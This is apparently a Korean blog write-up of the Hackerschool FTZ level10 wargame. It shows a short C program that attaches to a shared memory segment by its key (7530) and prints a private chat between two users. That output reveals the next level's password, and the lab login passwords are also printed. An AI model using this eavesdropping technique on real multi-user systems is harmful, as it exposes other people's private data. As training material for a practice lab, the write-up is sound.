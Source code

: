 ```yaml
---
layout: post
title: "Hackerschool FTZ-level10"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/23/
---
```

```bash
login as: level10 
level10@~~~~'s password: 
[level10@ftz level10]$ ls 
hint  program  public_html  tmp 
[level10@ftz level10]$ cat hint 


두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다. 
그 대화방은 공유 메모리를 이용하여 만들어졌으며, 
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여 
level11의 권한을 얻어라. 

- 레벨을 완료하셨다면 소스는 지우고 나가주세요. 


[level10@ftz level10]$
```


level10/interesting to hack!으로 접속하자. 
hint를 보니 공유 메모리를 이용한 문제인 듯 하다.
공유 메모리는 이런 것이다.

https://ko.wikipedia.org/wiki/%EA%B3%B5%EC%9C%A0_%EB%A9%94%EB%AA%A8%EB%A6%AC


공유 메모리를 이용한 C 코드 예시이다.

http://m.blog.naver.com/bitnang/70172711414

이것을 이용해서 공유 메모리에 접근하는 코드를 짜 보자.
참고로 프로그래밍 할 때에는 /tmp로 들어와서 하자.
그 이외에서는 프로그래밍이 권한상 되지 않는다.


```c
#include<stdio.h>
#include<sys/shm.h> 
#include<sys/ipc.h> 
#include<sys/types.h> 
int main() 
{ 
        int shmid; 
        char* shared_memory; 
        shmid=shmget(7530,1024,0666); //7530:ket_t 값 1024:일어올 크기 0666:접근할 권한이라고 알면 된다.
        shared_memory=shmat(shmid,NULL,0); //shmid에 넣어준 정보의 공유메모리 값을 얻어온다.
        printf("shared_memory is : %s\n",shared_memory); //값 출력
        shmdt(shared_memory); //공유메모리 접근을 끊는다.
        return 0; 
}
```


컴파일 후 실행시키자.


```bash
[level10@ftz tmp]$ vi m.c 
[level10@ftz tmp]$ gcc -o m m.c 
[level10@ftz tmp]$ ./m 
shared_memory is : 멍멍: level11의 패스워드는? 
구타: what!@#$? 

[level10@ftz tmp]$
```


답이 나왔다.

level11's password:"what!@#$?"